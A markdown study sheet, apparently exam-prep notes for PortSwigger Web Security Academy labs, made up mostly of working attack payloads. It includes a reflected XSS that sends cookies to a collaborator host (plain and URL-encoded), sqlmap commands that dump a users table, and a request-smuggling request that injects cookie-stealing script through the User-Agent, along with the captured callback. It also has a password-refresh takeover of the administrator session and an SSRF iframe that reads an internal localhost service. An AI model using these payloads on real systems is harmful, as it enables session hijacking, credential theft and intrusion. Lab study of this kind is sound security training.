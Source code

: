 # Extra 12  

## 1 - 1  
  
>Identify reflected XSS in search `tracker.gif`   

```
</ScRiPt ><img src=a onerror=document.location="https://COLLABORATOR.com/?biscuit="+document.cookie>
```  

>URL encode all b4 adding as searchterm value

```
%3c%2f%53%63%52%69%50%74%20%3e%3c%69%6d%67%20%73%72%63%3d%61%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%73%3a%2f%2f%78%79%7a%62%72%6a%72%78%31%34%65%31%69%68%64%6e%75%34%6f%68%6f%7a%6f%61%66%31%6c%73%39%69%78%37%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%3f%62%69%73%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3e
```

>exploit body

```
<script>
location = "https://0a93007e04e29b2ac06b2cf100ad00fe.web-security-academy.net/?term=%3c%2f%53%63%52%69%50%74%20%3e%3c%69%6d%67%20%73%72%63%3d%61%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%73%3a%2f%2f%78%79%7a%62%72%6a%72%78%31%34%65%31%69%68%64%6e%75%34%6f%68%6f%7a%6f%61%66%31%6c%73%39%69%78%37%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%3f%62%69%73%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3e"
</script>
```  

## 1 - 2  

>adv search filters - sqlmap  

```
sqlmap -v -u 'https://TARGET.net/advance?term=x&sortby=DATE&blogartist=' -p "term" --batch --cookie="_lab=YESYESYES%3d; session=YESYESYES" --random-agent --level=2 --risk=2
```  

```
sqlmap -v -u 'https://TARGET.net/advance?term=x&sortby=DATE&blogartist=' -p "term" --batch --cookie="_lab=YESYESYES%3d; session=YESYESYES" --random-agent --level=2 --risk=2 --dbms=PostgreSQL
```

```
sqlmap -v -u 'https://TARGET.net/advance?term=x&sortby=DATE&blogartist=' -p "term" --batch --cookie="_lab=YESYESYES%3d; session=YESYESYES" --random-agent --level=2 --risk=2 --dbms PostgreSQL -D public -T users --dump
```  


>change email + set pass  

```
attacker@exploit-1234.exploit-server.net
```  

## 1 - 3  

>admin file image path + size parameters ????

```
GET /admin_controls/metrics/adminimage?imagefilename=/blog/posts/49.jpg&size=%22200x133%21%22 HTTP/2
```  

>path traversal ? Template injection ? SSRF ? Access control ? LFI ?  
  
## 2 - 1  
  
>identify `User-Agent` in blog post comment load `/post?postId=10`  

>http smuggle request  

```
POST / HTTP/1.1
Host: TARGET.net
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: Ceop4Tck
Content-Length: 795
Connection: keep-alive

1a
mug9q=x&find=fuzz2&8p7m4=x
0

GET /post?postId=10 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?app='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES

x=1
```  

>send multiple times  

>replace cookie, set email, change password for user

>COLLABORATOR received  

```
GET /?APP=session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--blah%blah%2f% HTTP/1.1
Host: COLLABORATOR.oastify.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) Apple/111.0.5563.64 Safari/537.36
Accept: text/html,application/.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

## 2 - 2  

>Identify password change refresh csrf ???  

1. intercept `POST /refreshpassword HTTP/2`  
2. Change `username` to `administrator`  
3. Copy `csrf` from current logged in user profile accounts source code hidden value.  
4. Send pass change request, copy from response the `set-cookie` for administrator.  
5. replace cookie in current session to privesc.  

[csrf privesc](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/csrf-privesc.png)  

```
POST /refreshpassword HTTP/2
Host: TARGET.net
Cookie:session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--BLAHBLAHBLAH%3d;
Content-Length: 60
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Forwarded-Host: exploit-1234.exploit-server.net
X-Host: exploit-1234.exploit-server.net
X-Forwarded-Server: exploit-1234.exploit-server.net
Referer: https://TARGET.net/refreshpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

csrf=CurrentUserCookieValueX&username=administrator
```  

>response 200 ok set-cookie value  

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=%7b%22username%22%3a%22administrator%22%2c%22isloggedin%22%3atrue%7d--BLAHBLAHI%2bq3penAl0%blah%3d%3d; Secure; SameSite=None

X-Frame-Options: SAMEORIGIN
Content-Length: 3441

<!DOCTYPE html>
```  

>copy stolen cookie to session, update email, change password administrator  


## 2 - 3  

>admin function download report pdf `/adminpanel/save-metrics` in POST body JSON field `PageHtml`  

>SSRF vulnerability, you can use it to read the files by accessing an internal-only service running on locahost on port 6566.

```
POST /adminpanel/save-metrics HTTP/2
Host: TARGET.net
Cookie: session=%7b%22username%22%3a%22administrator%22%2c%22isloggedin%22%3atrue%7d--MCwCFBP%3d%3d;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.net/adminpanel
Content-Type: application/json
Origin: https://target.net
Content-Length: 97
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"PageHtml":"<h1>XSS</h1>\n<iframe src='http://localhost:6566/secret' height='750' width='750'>"}
```  

>open pdf with extracted data  